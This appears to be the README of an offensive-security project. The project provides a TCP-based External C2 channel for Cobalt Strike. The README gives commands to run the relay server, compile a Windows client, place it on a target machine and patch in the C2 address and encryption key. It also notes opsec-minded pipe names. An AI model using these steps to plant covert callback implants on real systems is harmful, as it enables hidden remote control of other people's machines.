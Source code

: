 # COBALT STRIKE TCP CHANNEL

This project provides a TCP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any TCP-based protocol.

To use the channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

Requirements: Python3 (developed on 3.9.2) and PyCryptodome

> pip3 install pycryptodome

To start the server, run the following command:

> python3 [Name].py [Teamserver IP] [Python Server IP] [Port] [Pipename] [Key] [OPTIONAL:-tp TeamserverPort -a Arch -r Restart]

- [Name] is the name of your Python server.
- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.)
- [Port] is the port that the server listens on to communicate with the client over. This is not the same port that the Python server uses to communicate with the teamserver.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any opsec appropriate pipe name approved for ops.
- [Key] AES key to encrypt the beacon that is initially sent. It must be the same as the client. (128 bit is 16 characters)
- [TeamserverPort] is the port to connect to on the Cobalt Strike teamserver. It defaults to 2222 and is an optional argument.
- [Arch] is the architecture to request from the teamserver for the beacon. It defaults to x86 and is an optional argument.
- [Restart] is a Y/N value to either restart the server after disconnect or exit. Default is N and is an optional argument.

Install MinGW

>sudo apt install mingw-w64

Once you have the MinGW compiler installed, you may compile the client C code with the following command (may need full paths to .c files):

>i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c aes.c base64.c -lws2_32 -static -lwsock32

or 64-bit with:

>x86_64-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c aes.c base64.c -lws2_32 -static -lwsock32

You can compile the debug version of the client with print statements by adding `-DDEBUG` to the end of the compile command

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

>./[Name].exe

Use the binary patcher to patch in arguments.

>python3 bipa.py [input binary] [output binary] -a [Python Server IP] -b [Port] -c [Pipename] -d [Sleep] -e [Timeout] -f [key]

- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.
- [Sleep] is the sleep time (in seconds) to wait between check ins with the server. It hits this sleep when the beacon indicates it has nothing left to send back to the server and is just checking in.
- [Timeout] is the send/recv socket timeout option (in seconds) set by setsockopt(). May remove in future.
- [key] AES key to encrypt the beacon that is initially sent. It must be the same as the client.

## CONSTRAINTS AND NOTES

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- The client keeps one long TCP/TLS connection open.

## TODOS/IMPROVEMENTS

- Handle multiple clients on one server.
- Add jitter to sleep
- Add retry to TCP
